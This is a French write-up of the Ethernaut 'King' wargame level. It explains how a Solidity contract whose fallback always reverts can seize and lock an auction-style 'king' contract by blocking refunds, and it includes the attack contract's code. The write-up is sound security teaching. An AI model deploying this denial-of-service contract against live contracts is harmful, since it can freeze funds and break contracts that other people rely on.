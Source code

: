 ```javascript

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### Analyse

Le but de ce smart contract est de simuler une sorte de mise aux enchéres, à chaque fois que l'on propose un prix supérieur au prix actuel, on devient propriétaire.

```javascript
> await contract.prize()
1000000000000000000 // 1 ether
```

Il est facile de devenir propriétaire, mais pas de le rester. La but va être de bloquer `king.transfer(msg.value)`. Cette instruction est censée donner les ethers à l'ancien propriétaire avant que le nouveau ne soit mit en place.

Imaginons que `king` est un autre smart contract et non un vrai utilisateur. Dans ce cas, lorsque `king.transfer(msg.value)` sera appelée, c'est la fallback function qui sera exécutée.

Pour ne pas autoriser la réception d'ether sur un smart contract nous allons utiliser `revert()` dans notre fallback function !

### Attaque

Nous allons déployer ce smart contract avec 1.1 ether.

```javascript
contract Attack {

    constructor(address addr) public payable {
        (bool result, bytes memory data) = addr.call.value(msg.value)("");
    }

    function () external payable {
        revert("nop");
    }
}
```

> Most of Ethernaut's levels try to expose (in an oversimpliefied form  of course) something that actually happend. A real hack or a real bug.
>
> In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html)
